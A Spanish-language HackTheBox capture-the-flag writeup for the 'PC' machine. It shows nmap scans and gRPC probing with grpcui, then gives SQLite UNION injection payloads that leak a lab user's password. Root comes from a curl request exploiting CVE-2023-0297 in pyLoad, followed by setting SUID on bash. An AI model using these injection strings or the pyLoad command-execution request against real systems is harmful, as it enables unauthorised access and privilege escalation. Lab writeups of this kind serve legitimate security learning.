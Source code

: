 ```yaml
---
layout: single
title: "HackTheBox Writeup — PC"
categories: writeups
header:
    image: /assets/images/writeups/pc/cabecera2.webp
---
```


Hola a todos soy Puchy y este será mi primer writeup espero que de muchos sobre un ejercicio CTF, en este caso de la máquina *PC* de [Hack the Box](https://app.hackthebox.com/home), para este tipo de problemas intento seguir siempre una misma metodología que se irá viendo a lo largo de este ejercicio en la separación de los apartados. Espero que al que este leyendo esto le sea de utilidad, le guste y aprenda algo.

# 1. Enumeración

Lo primero por lo que empezamos tras probar que tenemos conectividad con el servidor es hacer un reconocimiento de puertos a la máquina víctima para ello hago dos barridos, un escaneo rápido que me muestre todos los puertos abiertos y uno más exhaustivo para averiguar software o versiones de esos puertos.

**Escaneo rápido:**
*sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.11.214 -oN allPorts.nmap*
```ruby
# Nmap 7.94 scan initiated Wed Sep  6 12:07:55 2023 as: nmap -p- -sS --min-rate 5000 -vvv -n -Pn -oN allPorts.nmap 10.10.11.214
Nmap scan report for 10.10.11.214
Host is up, received user-set (0.062s latency).
Scanned at 2023-09-06 12:07:55 CEST for 26s
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
50051/tcp open  unknown syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Sep  6 12:08:21 2023 -- 1 IP address (1 host up) scanned in 26.61 seconds
```

**Escaneo de versiones:**
*nmap -p22,50051 -sCV 10.10.11.214 -oN versionPorts.nmap*
```ruby
# Nmap 7.94 scan initiated Wed Sep  6 12:09:40 2023 as: nmap -p22,50051 -Pn -sCV -oN versionPorts.nmap 10.10.11.214
Nmap scan report for 10.10.11.214
Host is up (0.048s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.94%I=7%D=9/6%Time=64F84FF7%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x06
SF:\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GenericL
SF:ines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetReq
SF:uest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPOp
SF:tions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSPR
SF:equest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPCC
SF:heck,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVer
SF:sionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\x
SF:ff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0"
SF:)%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\
SF:x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0
SF:\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\
SF:?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0
SF:\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05
SF:\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\
SF:?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\
SF:xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08
SF:\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\
SF:xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0
SF:\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  6 12:10:07 2023 -- 1 IP address (1 host up) scanned in 27.66 seconds
```
Esta vez estamos un caso un tanto especial ya que los puertos abiertos son el típico de *ssh* y uno muy extraño como es el 50051, que tras una larga búsquedad en Internet podemos averiguar que es el puerto por defecto de [gRPC](https://grpc.io/), el cual es un protocolo que permite la comunicación eficiente entre aplicaciones.

# 2. Reconocimiento de vulnerabilidades

Usando la herramienta [grpcui](https://github.com/fullstorydev/grpcui) con el comando `./grpcui --plaintext 10.10.11.214:50051` esta actúa como proxy y te permite hacer peticiones de manera gráfica al servidor.

![image-center](/assets/images/writeups/pc/grpcui.png){: .align-center}

Básicamente en la aplicación permite crear usuarios, loguearse y pedir información qué solo responde con *Will update soon*; si se prueba con *admin:admin* permite loguearse. Los token que da tienen el formato *b'token_de_la_cabecera'* por lo que a la hora de añadirlo en *getInfo* de cabecera hay que hacerlo sin la *b* y sin las comillas. Tras probar varias vulnerabilidades comprobé que el campo *id* en la función `getInfo` parecía ser vulnerable a una SQL injection, ya que al añafir al final `' OR 1=1 -- -` no daba ningún tipo de error.

# 3. Explotando vulnerabilidades

Tras probar unas cuantas inyecciones distitas para hallar que tipo de base de datos del que se trataba llegué a la conclusión de que era una *SQLite* gracias a esta inyección:

```sql
<id>' UNION SELECT 1 FROM sqlite_master--
```

Una vez que sabemos que existe esta tabla podemos obtener el nombre de las tablas que hay con la inyección `<id>' UNION SELECT tbl_name FROM sqlite_master--`, de la cual obtenemos que existe la tabla `accounts`. Para obtener los campos de esta tabla podemos usar la siguiente inyección `<id>' UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='accounts'--` lo que nos da como resuldato lo siguiente:

```json
{
  "message": "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n)"
}
```

Gracias a esto sabemos que la tabla tiene dos campos el *username* y *password*. Para saber el número de usuarios que hay en el sistema podemos hacer la consulta con `count(*)` y podemos ver que hay dos usuarios registrados. Añadiendo en la consulta el parámetro *OFFSET* podemos ir uno a uno viendo el nombre y contraseña de cada usuario, la inyección sería la siguiente:

```sql
<id>' UNION SELECT username FROM accounts LIMIT 1 OFFSET 1 --
```

Con esto obtenemos que existe usuario se llama *sau* y que su contraseña es *HereIsYourPassWord1431*, por lo que procedí a probar estos credenciales para el servicio *ssh* y así se obtenemos una conexión con la máquina y la flag de usuario.

# 4. Escalada de privilegios

Para escalar privilegios suelo empezar por mirar versiones, comandos de posible ejecución sudo o bits SUID, pero nada de eso estaba disponible. Pero al revisar los puertos internos que estan en esucha con el comando `netstat -tulpn` vemos que hay un servicio no listado eschuchando en el puerto 8000.

```ruby
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```


Por el número puerto podríamos intuir que es un servicio web para hacer esto podemos realizar por forwarding con ssh para poderla ver correctamente desde mi navegador, esto lo haremos con este comando `ssh -L 8000:localhost:8000 sau@10.10.11.214` en este se indica que quiero que a través del puerto 8000 de mi equipo quiero conectarme a través de esa conexión ssh al puerto 8000 del otro equipo, y encuentro esta página.

![image-center](/assets/images/writeups/pc/pyload.png){: .align-center}

Con una búsqueda rápida se ve que seguramente sea vulnerable al [CVE-2023-0297](https://nvd.nist.gov/vuln/detail/CVE-2023-0297) con el que con este [exploit](https://www.exploit-db.com/exploits/51532) unicamente haciendo una petición HTTP tenemos ejecución remota de comandos como root. Aquí muestro una prueba con el comando curl de como se crearía el archivo *prueba* en `/tmp`.

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/prueba\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://localhost:8000/flash/addcrypted2'
```
Como no me daba respuesta la reverse shell, lo hice de una manera más simple dandole permisos SUID a la bash.

![image-center](/assets/images/writeups/pc/suid-bash.png){: .align-center}

Y con esto ya podemos leer la flag del directorio `/root` y la máquina estaría resuelta!!!

Como vemos se trata de una máquina muy interesante y un poco distinta al tratarse de un protocolo tan poco conocido que al principio puede desconcertar un poco. Sin más un saludo, gracias por leerme y a seguir aprendiendo.

